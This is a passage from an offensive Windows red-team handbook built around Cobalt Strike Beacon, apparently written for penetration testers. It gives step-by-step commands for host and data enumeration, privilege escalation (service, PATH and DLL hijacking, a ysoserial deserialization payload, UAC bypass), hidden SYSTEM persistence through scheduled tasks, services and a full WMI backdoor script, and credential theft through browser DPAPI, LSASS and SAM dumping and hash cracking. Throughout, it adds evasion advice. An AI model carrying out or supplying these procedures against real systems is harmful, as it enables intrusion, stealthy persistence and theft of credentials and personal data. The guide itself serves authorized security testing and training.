The execute-assembly command loads the CLR into a temporary process via a reflective DLL and runs a .NET Framework assembly from memory. Only .NET Framework assemblies are supported (not .NET Core).
- Run Seatbelt for host enumeration:
execute-assembly C:\Tools\Seatbelt.exe -group=system
6.14.3 Beacon Object Files
BOFs are C programs compiled without linking. Beacon acts as the linker/loader and executes the BOF inline; no new process, no injection. Community projects like TrustedSec's Situational Awareness BOF expose custom commands via Aggressor scripts.
- Execute a raw BOF directly:
inline-execute C:\Tools\bof.o [args] - Use a BOF-backed command (e.g., SA BOF
ipconfig):ipconfig
OPSEC
powershellspawnspowershell.exe: heavily monitored. Preferpowerpickor BOF alternatives.execute-assemblyis fork & run: it spawns a process and loads the CLR, which is detectable via.NET assembly loadETW events.- BOFs run inline and produce no child process, but a crash kills the Beacon. Validate BOFs in a lab first.
- Imported PowerShell scripts are hosted on a built-in web server and fetched during execution; this generates a network request from the target to the team server.
6.15 Host Enumeration with Seatbelt
Seatbelt is a C# tool that collects host security configuration data: OS info, AV products, AppLocker status, LAPS, PowerShell logging, audit policies, .NET versions, firewall rules, and web proxy settings.
Methodology
- Run Seatbelt system enumeration group:
execute-assembly C:\Tools\Seatbelt.exe -group=system - Check for AV/EDR products:
execute-assembly C:\Tools\Seatbelt.exe AntiVirus
6.15.1 Web Proxy Implications
If Seatbelt reveals a web proxy, HTTP(S) C2 faces several challenges:
| Challenge | Impact |
|---|---|
| Web categorization | Domains in blocked categories (gambling, social media) become unusable for C2. Obtain pre-categorized domains or request category changes. |
| HTTPS offloading | Organizations with internal PKI decrypt, inspect, and re-encrypt HTTPS traffic. C2 content becomes visible to the proxy. |
| Content filtering / AV | Proxy can scan HTTP(S) payloads and block file types like .exe, .dll, .ps1. |
| Authentication | Proxy may require AD authentication (NTLM/Kerberos). SYSTEM-context Beacons (computer accounts) often cannot authenticate, breaking HTTP(S) C2. |
6.16 Data Hunting
Locating sensitive data is a primary post-exploitation objective. Target file shares and databases for documents, credentials, PII, and financial records.
6.16.1 File Shares
- Enumerate accessible shares on the domain:
powerpick Find-DomainShare -CheckShareAccess - Search shares for files with interesting extensions:
powerpick Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt* - Read the first lines of a discovered file:
powerpick gc \\server\share$\export.csv | select -first 5
6.16.2 Databases
PowerUpSQL provides cmdlets for SQL Server discovery and data extraction.
- Find accessible SQL instances and search for sensitive columns:
powerpick Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize - Query tables across SQL links:
powerpick Get-SQLQuery -Instance "[linked-sql-target],1433" -Query "select * from openquery(""[sql-target]"", 'select * from information_schema.tables')" - Sample data from a discovered table (non-correlatable columns only):
powerpick Get-SQLQuery -Instance "[linked-sql-target],1433" -Query "select * from openquery(""[sql-target]"", 'select top 5 first_name from master.dbo.employees')"
OPSEC
- Never extract multiple correlatable columns together (e.g., name + SSN + credit card). Sample individual columns that are meaningless in isolation.
Get-SQLColumnSampleDataThreadedonly searches directly accessible instances; it does not traverse SQL links. UseGet-SQLQuerywithopenqueryfor linked servers.- File share enumeration generates SMB traffic to many hosts. Run during business hours to blend with normal activity.
7. Privilege Escalation
7.1 Overview
Privilege escalation (TA0004) is the tactic by which adversaries exploit vulnerabilities or misconfigurations to gain higher privileges on a compromised system. It is often a prerequisite for credential access and lateral movement, especially after initial access as a standard user.
Three account groups are relevant to privilege escalation on Windows.
| Account Group | Description |
|---|---|
| Standard Users | Low-privilege accounts without permissions to access or modify anything outside their own files. |
| Local Administrators | Members of the local Administrators group with Full Control over most objects on the computer (directories, files, services). |
| Service Accounts | Built-in accounts used by the Service Control Manager (SCM) to run Windows services. |
7.1.1 Service Accounts
| Account | Local Privileges | Network Authentication |
|---|---|---|
NT AUTHORITY\LOCAL SERVICE | Minimum privileges | Anonymous credentials |
NT AUTHORITY\NETWORK SERVICE | Minimum privileges | Computer account credentials |
NT AUTHORITY\SYSTEM | Full Control (sometimes exceeds Administrators) | Computer account credentials |
These accounts are not recognized by the security subsystem and do not appear in net user output. Their privileges derive from User Rights Assignments rather than local group membership.
7.1.2 User Rights Assignments
| Category | Description | Example |
|---|---|---|
| Logon Rights | Control how and where an account can log in | SeBatchLogonRight allows batch-queue logon via Task Scheduler |
| Privileges | Control access to objects, can override explicit permissions | SeBackupPrivilege allows reading any file regardless of ACL |
Certain privileges are directly abusable for SYSTEM access. SeImpersonatePrivilege, commonly held by web and SQL server service accounts, is a well-known example.
7.2 Windows Services
Windows services are applications that typically start automatically at boot and run in the background. They manage core OS functionality (Defender, Firewall, Windows Update) and third-party applications. Services represent one of the largest attack surfaces for privilege escalation because they frequently run as SYSTEM.
| Property | Description |
|---|---|
| Binary Path | Path to the service executable. Windows services are usually in C:\Windows\System32; third-party in C:\Program Files. |
| Startup Type | Automatic, Automatic (Delayed), Manual, or Disabled. |
| Service Status | Running, Stopped, StartPending, or StopPending. |
| Log On As | The user account the service runs as (e.g., LocalSystem). |
| Dependencies | Other services this service depends on (or that depend on it). Important for assessing impact of manipulation. |
Services themselves (not just their binaries) have ACLs controlling which users can modify, start, or stop them. Some sensitive services like Windows Defender cannot be stopped even by administrators; others may have weak permissions exploitable for privilege escalation.
Methodology
- Enumerate all services with Cobalt Strike:
beacon> sc_enum - List service names and binary paths via WMI:
beacon> run wmic service get name, pathname - Query a specific service configuration:
beacon> run sc qc ServiceName - Run SharpUp to audit for common service misconfigurations:
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit
OPSEC
- Stopping/starting services generates event logs (7036, 7045) — avoid unnecessary service restarts; prefer waiting for a reboot when possible.
- Standard users cannot stop or start services by default — exploitation may require waiting for a system reboot.
7.3 Unquoted Service Paths
Unquoted service path exploitation (T1574.009) occurs when a service binary path contains spaces and is not enclosed in quotation marks. CreateProcess interprets spaces in unquoted paths as terminators, attempting multiple candidate paths before finding the real executable.
For example, the unquoted path C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe is interpreted as the following candidates in order:
| Order | Candidate Path |
|---|---|
| 1 | C:\Program.exe |
| 2 | C:\Program Files\Bad.exe |
| 3 | C:\Program Files\Bad Windows.exe |
| 4 | C:\Program Files\Bad Windows Service\Service.exe |
| 5 | C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe |
Exploitation requires two conditions: (1) the service path is unquoted and contains spaces, and (2) the adversary has write access to a directory that allows dropping a binary at a candidate path before the legitimate one.
Methodology
- Identify unquoted service paths with SharpUp:
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath - Verify write access to a candidate directory:
beacon> cacls "C:\Program Files\Bad Windows Service" - Upload a service binary payload to the writable location:
beacon> cd C:\Program Files\Bad Windows Service beacon> upload C:\Payloads\dns_x64.svc.exe beacon> mv dns_x64.svc.exe Service.exe - Restart the service to trigger execution:
beacon> sc_stop BadWindowsService beacon> sc_start BadWindowsService - Connect to the new Beacon (if using TCP):
beacon> connect localhost 4444
OPSEC
- Service payloads must be
.svc.exebinaries — they need to interact with the Service Control Manager or the service will crash. - Overwriting a path like
C:\Program.exeis highly visible — prefer deeper path candidates closer to the legitimate binary. - Clean up by deleting the dropped binary and restarting the service with its legitimate executable after obtaining access.
7.4 PATH Environment Variable Hijacking
PATH variable hijacking (T1574.007) occurs when directories writable by standard users appear in the system PATH before core Windows directories. Software installers frequently prepend their own paths, and directories created in the system root (C:\) are writable by standard users by default.
The PATH variable is constructed from two registry locations.
| Scope | Registry Key | Writable By |
|---|---|---|
| User | HKCU\Environment | Current user |
| Machine | HKLM\System\CurrentControlSet\Control\Session Manager\Environment | Administrators only |
User processes use the concatenation of Machine + User paths. System processes use only the Machine path. When a program references an executable by relative name (e.g., timeout), Windows searches each PATH directory in order until it finds a match.
Methodology
- Inspect the PATH variable for non-default directories:
beacon> env - Check permissions on suspicious directories using
cacls:beacon> cacls C:\Python313\Scripts\ - Identify which executables the target service calls by relative name (reverse the binary with Ghidra, IDA Free, dotPeek, or dnSpy).
- Drop a payload with the same filename into the writable directory:
beacon> cd C:\Python313\Scripts beacon> upload C:\Payloads\dns_x64.exe beacon> mv dns_x64.exe timeout.exe
7.4.1 CACLS Permission Key
| Letter | Permission |
|---|---|
F | Full Control |
C | Read, Write, Execute, Delete |
R | Read and Execute |
W | Write |
OPSEC
- Dropping executables into shared directories affects all users on the system — scope the impact and clean up promptly.
- Hijacking common binaries (e.g.,
cmd.exe) via PATH alone may not work becauseCreateProcesssearches the current working directory andSystem32before PATH entries.
7.5 Search Order Hijacking
Search order hijacking (T1574.008) exploits the order in which Windows APIs resolve executable paths. Different APIs follow different search orders, and an adversary who can write to a higher-priority directory can intercept execution.
| Search Order | Directory |
|---|---|
| 1 | The executing directory (where the calling binary resides) |
| 2 | The current working directory |
| 3 | The System32 directory |
| 4 | The 16-bit System directory |
| 5 | The Windows directory |
| 6 | Directories in the PATH variable |
The WinExec API follows this order. CreateProcess behavior varies: if lpApplicationName is provided, only the current working directory is searched (defaulting to C:\Windows\System32 for services). If only lpCommandLine is set, the full search order applies. The .NET Process class calls either ShellExecuteEx or CreateProcess depending on parameters.
Methodology
- Identify the service binary's executing directory:
beacon> sc_enum - Check if the executing directory is writable:
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable" - Drop a payload named after the target executable (e.g.,
cmd.exe) into the executing directory:beacon> cd C:\Program Files\Bad Windows Service\Service Executable beacon> upload C:\Payloads\dns_x64.exe beacon> mv dns_x64.exe cmd.exe
OPSEC
- Dropping
cmd.exein an application directory will intercept all calls from that binary — verify the application's behavior before deploying. - The executing directory takes precedence over System32, making it the strongest hijack point if writable.
7.6 Weak Service Permissions
Service ACLs may grant standard users the ability to reconfigure a service. If a user has ChangeConfig, Start, and Stop rights, they can point the service at a different binary entirely. This does not require modifying any files on disk — only the service configuration in the registry.
Methodology
- Identify modifiable services with SharpUp:
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices - Inspect service ACLs with PowerShell:
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1 beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access - Reconfigure the service binary path:
beacon> upload C:\Payloads\tcp-local_x64.svc.exe beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe - Restart the service and connect:
beacon> run sc stop VulnService2 beacon> run sc start VulnService2 beacon> connect localhost 4444 - Restore the original binary path after obtaining access:
beacon> run sc config VulnService2 binPath= \"\"C:\Program Files\Vulnerable Services\Service 2.exe\"\"
7.6.1 Weak Registry Permissions
Service configuration is stored in HKLM\SYSTEM\CurrentControlSet\Services. If a weak ACE is granted on a service's registry key, an adversary can modify the binary path or add additional keys like the Performance subkey (discovered by Clement Labro), which points to a monitoring DLL and can be added without interfering with normal service operation (T1574.011).
- Check registry ACLs on a service key:
beacon> powerpick Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService | fl - Reconfigure the service via registry (using Cobalt Strike's
sc_config):beacon> sc_stop BadWindowsService beacon> sc_config BadWindowsService C:\Path\to\Payload.exe 0 2 beacon> sc_start BadWindowsService
OPSEC
- The space after
binPath=insc configis mandatory — omitting it causes a silent failure. - Changing a service binary path is logged (event ID 7040) — restore the original path immediately after exploitation.
- When restoring a quoted path, escape the quotes properly to avoid introducing an unquoted service path vulnerability.
7.7 Weak Service Binary Permissions
When the service binary itself has a weak ACE (e.g., Modify or Full Control for BUILTIN\Users), the adversary can overwrite it directly with a payload (T1574.010). The weak ACE may be set explicitly on the binary or inherited from its parent directory.
Methodology
- Check permissions on the service binary:
beacon> cacls "C:\Program Files\Vulnerable Services\Service Executable\BadWindowsService.exe" - Back up the original binary before overwriting:
beacon> download BadWindowsService.exe - Stop the service (the binary cannot be overwritten while running):
beacon> sc_stop BadWindowsService - Upload the payload as the service binary name:
beacon> upload C:\Payloads\BadWindowsService.exe - Start the service and connect:
beacon> sc_start BadWindowsService beacon> connect localhost 4444
OPSEC
- This is destructive — the original binary is completely replaced. Always download a backup first.
- The binary cannot be replaced while the service is running (error 32: file in use). The service must be stopped first, which requires appropriate permissions or a reboot.
7.8 DLL Search Order Hijacking
DLL search order hijacking (T1574.001) exploits the fact that applications reference DLLs by name rather than full path. Windows resolves the location using a defined search order, and an adversary who can place a malicious DLL higher in that order gains code execution in the context of the loading process.
| Search Order | Directory |
|---|---|
| 1 | The executing directory |
| 2 | The System32 directory |
| 3 | The 16-bit System directory |
| 4 | The Windows directory |
| 5 | The current working directory |
| 6 | Directories in the PATH variable |
If a service loads a DLL via LoadLibrary with a relative path, and the executing directory is writable, an adversary can drop a Beacon DLL there. The DLL will be found before the legitimate copy in a lower-priority directory (such as one in the PATH).
Methodology
- Identify the service's executing directory and verify the DLL is not already present there:
beacon> ls "C:\Program Files\Bad Windows Service\Service Executable" - Determine where the DLL is actually loaded from by checking the PATH:
beacon> env - Verify write access to the executing directory:
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable" - Upload a Beacon DLL payload with the target DLL name:
beacon> cd C:\Program Files\Bad Windows Service\Service Executable beacon> upload C:\Payloads\dns_x64.dll beacon> mv dns_x64.dll BadDll.dll
OPSEC
- DLL hijacking does not require stopping the service if the DLL is loaded dynamically on a loop — the hijacked DLL is picked up on the next
LoadLibrarycall. - Use Process Monitor (procmon) or API Monitor during reconnaissance to identify which DLLs a process attempts to load and from where.
- Reverse the target application with Ghidra, IDA Free, dotPeek, or dnSpy to understand its DLL loading behavior before deploying.
7.9 Software Vulnerabilities
Applications running in an elevated context may contain traditional vulnerabilities (T1068) such as buffer overflows, format strings, command injection, or deserialization of untrusted data. Exploiting these from a user context results in privilege escalation.
A common example is .NET deserialization: if a service reads and deserializes data from an untrusted location (e.g., C:\Temp\data.bin) using BinaryFormatter, an adversary can craft a malicious blob that executes code upon deserialization.
Methodology
- Generate a deserialization payload with ysoserial.net:
ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "powershell -nop -ep bypass -enc <BASE64>" -o raw --outputpath=C:\Payloads\data.bin - Upload the payload to the expected input location:
beacon> cd C:\Temp beacon> upload C:\Payloads\data.bin
OPSEC
- Deserialization exploits execute code inline within the vulnerable process — a crash may alert defenders.
- Review the application binary with Ghidra, IDA Free, dotPeek, or dnSpy to confirm the vulnerability before deploying a payload.
7.10 UAC Bypass
User Account Control (UAC) is a defense-in-depth feature that gates access to high integrity levels. Even local administrators run at medium integrity by default. Administrative actions require explicit consent through a UAC prompt to elevate to high integrity. Mandatory Integrity Control (MIC) enforces four levels: low, medium, high, and system.
| Integrity Level | Description |
|---|---|
| Low | Sandboxed processes (e.g., browser tabs) |
| Medium | Default for all user processes, including local administrators |
| High | Elevated administrator context (post-UAC consent) |
| System | OS kernel and core services |
A UAC bypass (T1548.002) allows a medium-integrity process to spawn a high-integrity process without triggering a consent prompt. Cobalt Strike provides two mechanisms for this.
| Command | Syntax | Purpose |
|---|---|---|
elevate | elevate [exploit] [listener] | Spawns a new Beacon session in high integrity |
runasadmin | runasadmin [exploit] [command] [args] | Runs any arbitrary command in high integrity |
7.10.1 Available Exploits
| Name | Type | Description |
|---|---|---|
uac-schtasks | Both | Bypass via schtasks.exe (SilentCleanup) |
uac-token-duplication | Both | Bypass via token duplication |
uac-cmstplua | Elevator | Bypass via CMSTPLUA COM interface |
uac-eventvwr | Elevator | Bypass via eventvwr.exe |
uac-wscript | Elevator | Bypass via wscript.exe |
svc-exe | Exploit | Get SYSTEM via service executable |
ms14-058 | Exploit | TrackPopupMenu Win32k NULL pointer dereference |
ms15-051 | Exploit | ClientCopyImage Win32k exploit |
ms16-016 | Exploit | mrxdav.sys WebDAV LPE |
ms16-032 | Elevator | Secondary Logon handle privilege escalation |
Methodology
- Verify current integrity level:
beacon> shell whoami /groups - List available elevate exploits:
beacon> elevate - List available runasadmin elevators:
beacon> runasadmin - Spawn a high-integrity Beacon via UAC bypass:
beacon> elevate uac-schtasks tcp-local - Run an arbitrary command as admin:
beacon> runasadmin uac-cmstplua powershell -nop -w hidden -enc <BASE64>
OPSEC
- UAC bypasses that write to disk (e.g., schtasks-based) leave artifacts — prefer COM-based bypasses like
uac-cmstpluawhen available. - High integrity is required for credential dumping, so a UAC bypass is often the first step after gaining local admin group membership.
- Operators can add custom UAC bypasses via Aggressor scripts, supporting PowerShell, .NET, reflective DLL, and BOF implementations.
8. Elevated Persistence
After achieving privileged access on a host, a second round of persistence ensures that level of access survives reboots, patches, or mitigation of the original elevation vector. These techniques run payloads as SYSTEM without requiring re-exploitation.
8.1 Scheduled Tasks
The Windows Task Scheduler can execute tasks as SYSTEM via XML task definitions. A boot trigger fires when the machine starts, re-establishing elevated access automatically.
| XML Element | Purpose |
|---|---|
<BootTrigger> | Fires when the computer boots |
<UserId>NT AUTHORITY\SYSTEM</UserId> | Runs the task as SYSTEM |
<RunLevel>HighestAvailable</RunLevel> | Requests maximum privileges |
<Hidden>true</Hidden> | Hides the task from the default Task Scheduler view |
<AllowStartOnDemand>true</AllowStartOnDemand> | Permits manual trigger for testing |
Methodology
- Create an XML task definition with a boot trigger running as SYSTEM:
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"> <Triggers> <BootTrigger> <Enabled>true</Enabled> </BootTrigger> </Triggers> <Principals> <Principal> <UserId>NT AUTHORITY\SYSTEM</UserId> <RunLevel>HighestAvailable</RunLevel> </Principal> </Principals> <Settings> <AllowStartOnDemand>true</AllowStartOnDemand> <Enabled>true</Enabled> <Hidden>true</Hidden> </Settings> <Actions> <Exec> <Command>C:\Windows\System32\beacon_x64.exe</Command> </Exec> </Actions> </Task> - Upload the payload to the target:
cd C:\Windows\System32 upload C:\Payloads\beacon_x64.exe - Register the scheduled task from the XML definition:
schtaskscreate \Beacon XML CREATE
OPSEC
- Scheduled task creation generates event ID
4698in the Security log — use a task name that blends with legitimate system tasks. - Dropping an EXE into
C:\Windows\System32is noisy — consider using a less-monitored directory or a DLL-based payload loaded by a legitimate binary.
8.2 Windows Services
Creating a custom Windows service provides SYSTEM-level persistence that starts automatically on boot. Unlike hijacking an existing service for privilege escalation, a new service avoids breaking legitimate functionality.
| Parameter | Value | Description |
|---|---|---|
START_TYPE | 2 (AUTO_START) | Service starts automatically on boot |
SERVICE_TYPE | 10 (WIN32_OWN) | Runs in its own process |
ERROR_CONTROL | 0 (IGNORE) | Boot continues if the service fails |
SERVICE_START_NAME | LocalSystem | Runs as SYSTEM by default |
The payload must be a service executable (SVC EXE) that implements the Service Control Manager interface. A standard EXE will be killed by SCM after roughly 30 seconds.
Methodology
- Upload and rename the service payload:
cd C:\Windows\System32\ upload C:\Payloads\beacon_x64.svc.exe mv beacon_x64.svc.exe debug_svc.exe - Create the service with auto-start and a believable name:
sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3 - Verify the service configuration:
sc_qc dbgsvc - Alternative: use SharPersist to create the service and then set it to auto-start:
execute-assembly C:\Tools\SharPersist\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add- Set the start type to automatic:
run sc config "legit-svc" start= auto
- Set the start type to automatic:
- After reboot, connect to the service beacon (if using a bind payload):
connect localhost 4444
OPSEC
- Service creation generates event IDs
7045(System) and4697(Security) — use a display name and description that matches the environment. - Services running from
System32may receive extra scrutiny — consider placing the binary in a path used by legitimate third-party software. - A service that immediately stops after boot may appear suspicious — bind payloads (TCP/SMB) that wait for connections behave more like real services.
8.3 WMI Event Subscriptions
WMI event subscriptions provide fileless, SYSTEM-level persistence that survives reboots. Three WMI objects are stored in the WMI repository and trigger arbitrary actions when system events occur. This technique was popularized by Matt Graeber's research on abusing WMI for persistent backdoors.
| WMI Component | Class | Role |
|---|---|---|
| Event Filter | __EventFilter | WQL query that matches on a trigger event |
| Event Consumer | CommandLineEventConsumer or ActiveScriptEventConsumer | Action to execute when the filter triggers |
| Binding | __FilterToConsumerBinding | Links a filter to a consumer |
8.3.1 WQL Query Types
WMI queries come in two forms. Instance queries return a snapshot of current state. Event queries fire when a future event matches a filter within a polling interval.
| Query Type | Syntax | Example |
|---|---|---|
| Instance | SELECT [prop] FROM [class] WHERE [constraint] | SELECT * FROM Win32_Process WHERE Name = 'notepad.exe' |
| Event | SELECT [prop] FROM [intrinsic class] WITHIN [interval] WHERE [constraint] | SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe' |
8.3.2 Consumer Types
| Consumer Class | Payload Method |
|---|---|
CommandLineEventConsumer | Executes an OS command line |
ActiveScriptEventConsumer | Executes embedded VBScript or JScript |
8.3.3 Useful Event Triggers
| Trigger | WQL Filter |
|---|---|
| Process start | SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe' |
| Workstation locked (4800) | SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4800' |
| Firewall packet drop (5152) | SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '5152' |
The firewall drop trigger is particularly useful for on-demand remote activation: enable the Audit Filtering Platform Packet Drop policy on the target, then trigger the payload by sending a packet to a specific dropped port.
Methodology
- Create a permanent WMI event subscription using PowerLurk:
cd C:\Windows upload C:\Payloads\dns_x64.exe powershell-import C:\Tools\PowerLurk.ps1 powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe - Verify the subscription was created:
Get-WmiEvent -Name WmiBackdoor - Alternative: create the subscription manually with PowerShell (filter, consumer, and binding):
$filterArgs = @{ EventNamespace = 'root/cimv2' Name = "Test Filter" Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe'" QueryLanguage = 'WQL' } $filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $filterArgs- Create the consumer:
$consumerArgs = @{ Name = "Test Consumer" CommandLineTemplate = "%COMSPEC% /c C:\Windows\dns_x64.exe" } $consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $consumerArgs - Bind the filter to the consumer:
$filterToConsumerArgs = @{ Filter = $filter Consumer = $consumer } Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $filterToConsumerArgs
- Create the consumer:
- Remove the subscription when no longer needed:
Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject
8.3.4 Complete WMI Subscription Script
- Full manual WMI event subscription (filter + consumer + binding):
# Create the event filter $filterArgs = @{ EventNamespace = 'root/cimv2' Name = "Test Filter" Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe'" QueryLanguage = 'WQL' } $filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $filterArgs # Create the command-line consumer $consumerArgs = @{ Name = "Test Consumer" CommandLineTemplate = "%COMSPEC% /c C:\Windows\dns_x64.exe" } $consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $consumerArgs # Bind the filter to the consumer $filterToConsumerArgs = @{ Filter = $filter Consumer = $consumer } Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $filterToConsumerArgs # Verify Get-WmiObject -Namespace root/subscription -Class __FilterToConsumerBinding # Cleanup (when no longer needed) Get-WmiEvent -Name "Test Filter" | Remove-WmiObject
OPSEC
- Permanent WMI subscriptions are stored in
C:\Windows\System32\wbem\Repository— defenders can enumerate them withGet-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding. - Sysmon event ID
19/20/21detects WMI filter, consumer, and binding creation respectively. - PowerLurk uses
Win32_ProcessStartTracewhich is an intrinsic event class — it does not require aWITHINpolling interval and triggers faster than extrinsic queries. - Temporary event registrations (
Register-WmiEvent) are process-scoped and do not persist — they are useful only for testing filters before deploying permanent subscriptions.
9. Credential Access
Credential Access [TA0006] covers techniques for stealing authentication material: plaintext passwords, NTLM hashes, Kerberos keys, and tickets. Legitimate credentials are less suspicious than exploits and often grant broader access across the domain.
Some techniques run as a standard user; others require local admin or SYSTEM. Domain-level credential extraction (DCSync) is covered in Domain Dominance.
9.1 Credentials from Web Browsers
Chromium-based browsers encrypt saved passwords with DPAPI and store them in a local SQLite database [T1555.003]. If a user has saved credentials for web applications, an attacker can read and decrypt them without elevation.
| Browser | Database Path |
|---|---|
| Chrome | %LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data |
| Edge | %LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data |
| Other Chromium | %LOCALAPPDATA%\<vendor>\<browser>\User Data\Default\Login Data |
Methodology
- Dump saved browser logins with SharpChrome (medium integrity):
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
OPSEC
- SharpChrome reads the SQLite database directly on disk; no handle to LSASS required.
- Executes in the context of the current user; no elevation needed.
9.2 Windows Credential Manager
Windows Credential Manager stores credentials saved by applications such as mstsc (Remote Desktop) [T1555.004]. Two vaults exist: Web Credentials (browser) and Windows Credentials (RDP, SMB, etc.). The credential blobs are DPAPI-encrypted with the user's master key.
Methodology
- Enumerate saved credentials with
vaultcmd:run vaultcmd /listcreds:"Windows Credentials" /all - Alternative enumeration with Seatbelt:
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault - Decrypt credential blobs with SharpDPAPI (uses MS-BKRP via
/rpcto ask the DC for the master key):execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
The /rpc flag uses the Microsoft BackupKey Remote Protocol to have the domain controller decrypt the AES master key. This works because DCs retain a backup copy of each user's DPAPI master key. If cached keys are already available, /rpc is not needed.
OPSEC
- Works from medium integrity; no elevation required.
- The
/rpcmethod generates network traffic to the DC but avoids touching LSASS.
9.3 Scheduled Task Credentials
Scheduled tasks configured to run as a specific user store DPAPI-encrypted credential blobs under the SYSTEM profile. With local admin access, these can be decrypted to recover plaintext passwords.
Methodology
- List credential blobs stored by scheduled tasks:
ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials - Identify the master key GUID for a credential blob:
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<BLOB_FILE> - Dump cached DPAPI master keys from LSASS:
mimikatz !sekurlsa::dpapi - Decrypt the credential blob with the recovered master key:
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<BLOB_FILE> /masterkey:<KEY>
OPSEC
sekurlsa::dpapiopens a read handle to LSASS; generates event 4656.- Requires SYSTEM privileges on the target host.
9.4 LSASS Memory
The Local Security Authority Subsystem Service (LSASS) caches credentials for users who have authenticated to the machine [T1003.001]. Each Security Support Provider (SSP) handles credentials differently within LSASS memory.
| SSP | Protocol | Credential Type Cached |
|---|---|---|
| NTLM | NTLMv1 / NTLMv2 | NTLM hashes |
| Kerberos | Kerberos v5 | Tickets, encryption keys |
| Digest | LDAP / HTTP | Plaintext (if WDigest enabled) |
| Schannel | TLS / SSL | PKI credentials |
| CredSSP | RDP / Terminal Services | SSO credentials |
Cobalt Strike embeds Mimikatz. The mimikatz command runs arbitrary Mimikatz modules. The ! prefix elevates to SYSTEM first; the @ prefix impersonates Beacon's thread token (useful for remote operations like DCSync). Since CS 4.8, commands can be chained with semicolons.
9.4.1 Dumping NTLM Hashes
The sekurlsa::logonpasswords module (alias: logonpasswords) extracts NTLM hashes for all recently authenticated users. Plaintext passwords via WDigest are disabled by default on Windows 10+.
- Dump NTLM hashes from LSASS (requires SYSTEM):
mimikatz !sekurlsa::logonpasswords - Crack NTLM hashes offline (mode 1000):
hashcat -a 0 -m 1000 ntlm.hash wordlist.txt -r rules/dive.rule
9.4.2 Dumping Kerberos Encryption Keys
The sekurlsa::ekeys module dumps AES256, AES128, and RC4 keys for logged-on users. Using Kerberos keys instead of NTLM hashes blends better into normal authentication traffic.
- Dump Kerberos encryption keys (requires SYSTEM):
mimikatz !sekurlsa::ekeys - Crack AES256 keys offline (mode 28900, format
$krb5db$18$user$DOMAIN$hash):hashcat -a 0 -m 28900 aes256.hash wordlist.txt -r rules/dive.rule
Mimikatz incorrectly labels all hashes as des_cbc_md4. Identify types by length: 64 characters = AES256, 32 characters = AES128 or RC4. AES256 cracking is far slower than NTLM (approximately 1375 kH/s vs 140 GH/s on a 4070 GPU) because AES keys are salted.
OPSEC
- Both modules open a read handle to LSASS; logged via event 4656 and Sysmon event 10.
- The
GrantedAccessmask0x1010(PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ) is a well-known indicator. - Security drivers using
ObRegisterCallbacksreceive notifications when processes open handles to LSASS. - Prefer Kerberos ticket extraction (section 9.8) over LSASS dumping when possible.
9.5 Security Account Manager
The SAM database stores NTLM hashes for local accounts only [T1003.002]. It lives across the HKLM\SAM and HKLM\SYSTEM registry hives. If a common local administrator password is reused across the environment, a single SAM dump enables widespread lateral movement.
Methodology
- Dump local account hashes from the SAM (requires SYSTEM):
mimikatz !lsadump::sam
OPSEC
- Opens a handle to the SAM registry hive; generates detectable events.
- The local RID-500 Administrator is not the domain admin account and is often disabled, but check for password reuse across machines.
9.6 LSA Secrets
